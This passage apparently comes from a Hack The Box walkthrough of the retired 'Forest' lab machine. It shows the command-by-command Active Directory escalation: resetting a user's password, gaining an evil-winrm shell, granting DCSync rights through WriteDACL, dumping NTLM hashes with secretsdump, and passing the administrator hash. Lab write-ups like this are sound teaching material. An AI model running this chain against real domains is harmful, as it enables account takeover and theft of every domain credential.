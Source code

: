 ## Executing commands to change the password of user task
I like to take reference from [this](https://github.com/aniqfakhrul/archives) amazing repo by [aniqfakhrul](https://twitter.com/aniqfakhrul) when it comes to abusing permissions on Active Directory.
```console
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Set-DomainUserPassword -Identity tick -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!')
```
And we successfully changed the password for user tick.


## Getting a shell as user tick
```console
reddevil@ubuntu:~/Documents/htb/retired/forrest$ evil-winrm -i 10.10.10.161 -u tick -p 'P@$$w0rd!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tick\Documents>
```

## Back to the Bloodhound
![image](/assets/images/htb-boxes/forest/Pasted image 20210704133550.png)
We can see that the compromised user tick is a memeber of group Exchange Windows Permissions and the group has writedacl privileges over the whole domain.

![image](/assets/images/htb-boxes/forest/Pasted image 20210704133810.png)
And from the help we can see that with writedacl, we can give ourself permission for DCSync.

## Giving ourself permission for DCSync
```console
*Evil-WinRM* PS C:\Users\tick\Documents> Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tick -Rights DCSync
*Evil-WinRM* PS C:\Users\tick\Documents> 
```
- With DCsync we can either run mimikatz on the windows box or secretsdump on our linux box to dump all the secrets present on the domain controller which includes NTLM hashes which we can use to login onto the box.

## Running secretsdump from impacket
![image](/assets/images/htb-boxes/forest/Pasted image 20210704134529.png)
We get the NTLM hash for all the accounts on the domain.

## Getting shell using evil-winrm
```console
reddevil@ubuntu:~/Documents/htb/retired/forrest$ evil-winrm -i 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```
